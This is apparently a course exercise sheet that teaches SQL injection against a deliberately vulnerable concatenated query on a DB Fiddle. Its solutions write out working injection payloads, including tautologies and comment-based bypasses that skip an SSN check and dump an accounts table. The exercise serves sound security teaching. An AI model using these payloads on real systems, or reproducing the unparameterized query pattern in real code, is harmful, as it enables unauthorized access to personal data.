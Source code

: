 ## SQL Substitutions


### Instructions

Navigate to the fiddle at: <https://www.db-fiddle.com/f/gAkPEQwVW7EsAnm3xuUJGx/0>

Consider the query below as you follow the instructions:

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='$EXPLOIT_NAME';
  ```

Suppose that:

- A user is using a site that allows them to look up information about known exploits
- `$EXPLOIT_NAME` comes from the user-submitted search value
- The web application uses the user-submitted search value to create the SQL query it runs

So, if a user searches for `'aurora'`, the query becomes:

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='aurora';
  ```

Keep this in mind as you follow the instructions below.

### "Simple" Substitutions

What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - **Solution**
    - `$EXPLOIT_NAME` = `'eternal romance'`
    - This simply retrieves the record for `eternal romance`.

      ```sql
      SELECT * FROM warehouse.exploits WHERE name='eternal romance';
      ```

What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - **Solution**
     - `$EXPLOIT_NAME` = `aurora' OR id='1'`. 
    - This returns the record for `'eternal_romance'` (with `id=1`) _and_ for `'aurora'`.

      ```sql
      SELECT * FROM warehouse.exploits WHERE name='aurora' OR id='1';
      ```

What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - **Solution**
    - `$EXPLOIT_NAME` = `' OR '1'='1`. **Note that you do _not_ need to include the final single quote!**
    - This returns _every_ row in the `warehouse.exploits` table!

      ```sql
      SELECT * FROM warehouse.exploits WHERE name='' OR '1'='1';
      ```

What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - **Solution**
    - `$EXPLOIT_NAME` = `'`. 
    - This is invalid SQL, so it throws an error.

      ```sql 
      SELECT * FROM warehouse.exploits WHERE name=''';
      ```

### "Complex" Substitutions
In addition to special characters like quotes, you can inject the comment character: `--`.

- This forces the server _not_ to run whatever SQL code follows the comment.

- Consider the query below to see when this might be useful:

  ```sql
  -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
  SELECT * FROM warehouse.accounts WHERE name='$USERNAME' AND ssn='$USER_SSN';
  ```

---

What value must `$USERNAME` have to generate the query below? What results does this generate?
  - **Solution**
    - `$USERNAME` = `jane'; -- `. The final space is important!
    - This retrieves _just_ the record for `jane`, _even if she submits the wrong SSN_. This is because the comment (`--`) causes the database to skip the `AND ssn=$USER_SSN` statement, so it doesn't perform that check at all!

      ```sql
      -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
      SELECT * FROM warehouse.accounts WHERE name='jane'; -- AND ssn='$USER_SSN';
      ```

What value must `$USERNAME` have to generate the query below? What results does this generate?
  - **Solution**
    - `$USERNAME` = `jane' OR '1'='1'; -- `. The final space is important!
    - This retrieves _all_ rows from the `accounts` table.

      ```sql
      -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
      SELECT * FROM warehouse.accounts WHERE name='jane' OR '1'='1'; -- AND ssn='$USER_SSN';
      ```

